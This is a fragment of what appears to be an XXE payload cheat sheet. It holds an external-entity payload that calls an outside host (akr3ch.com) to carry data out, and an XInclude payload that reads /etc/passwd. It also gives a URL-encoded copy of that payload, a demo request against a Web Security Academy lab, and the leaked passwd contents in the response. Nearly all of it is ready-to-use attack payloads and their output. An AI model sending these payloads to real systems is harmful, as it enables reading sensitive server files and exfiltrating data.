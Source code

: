 ```xml
<!ENTITY callme SYSTEM "www.akr3ch.com/?%xxe;">
]
>
<foo>&callme;</foo>
```

### XXE file read via XInclude payload as parameter value 
#### `payload`

```xml
<akrech xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></akrech>
```

#### `url encoded payload`
```
%3c%66%6f%6f%20%78%6d%6c%6e%73%3a%78%69%3d%22%68%74%74%70%3a%2f%2f%77%77%77%2e%77%33%2e%6f%72%67%2f%32%30%30%31%2f%58%49%6e%63%6c%75%64%65%22%3e%0d%0a%3c%78%69%3a%69%6e%63%6c%75%64%65%20%70%61%72%73%65%3d%22%74%65%78%74%22%20%68%72%65%66%3d%22%66%69%6c%65%3a%2f%2f%2f%65%74%63%2f%70%61%73%73%77%64%22%2f%3e%3c%2f%66%6f%6f%3e
```
#### `Request demo`
```http
POST /product/stock HTTP/1.1
Host: web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
...
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

productId=%3c%66%6f%6f%20%78%6d%6c%6e%73%3a%78%69%3d%22%68%74%74%70%3a%2f%2f%77%77%77%2e%77%33%2e%6f%72%67%2f%32%30%30%31%2f%58%49%6e%63%6c%75%64%65%22%3e%0d%0a%3c%78%69%3a%69%6e%63%6c%75%64%65%20%70%61%72%73%65%3d%22%74%65%78%74%22%20%68%72%65%66%3d%22%66%69%6c%65%3a%2f%2f%2f%65%74%63%2f%70%61%73%73%77%64%22%2f%3e%3c%2f%66%6f%6f%3e&storeId=1
```
#### `Response demo`

```http
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 1279

"Invalid product ID: 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
dnsmasq:x:102:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
```

